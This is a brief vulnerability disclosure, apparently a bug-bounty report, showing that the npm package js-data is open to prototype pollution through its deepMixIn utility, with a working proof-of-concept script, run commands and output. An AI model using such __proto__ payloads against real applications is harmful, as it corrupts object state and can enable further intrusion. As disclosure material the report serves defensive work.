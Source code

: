 # Description

`js-data` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
const js = require("js-data");
const payload = JSON.parse('{"__proto__":{"polluted":"Yes! Its Polluted"}}');
var obj = {}
console.log("Before : " + {}.polluted);
js.utils.deepMixIn(obj, payload);
console.log("After : " + {}.polluted);
```


2. Execute the following commands in terminal:

```
npm i js-data # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
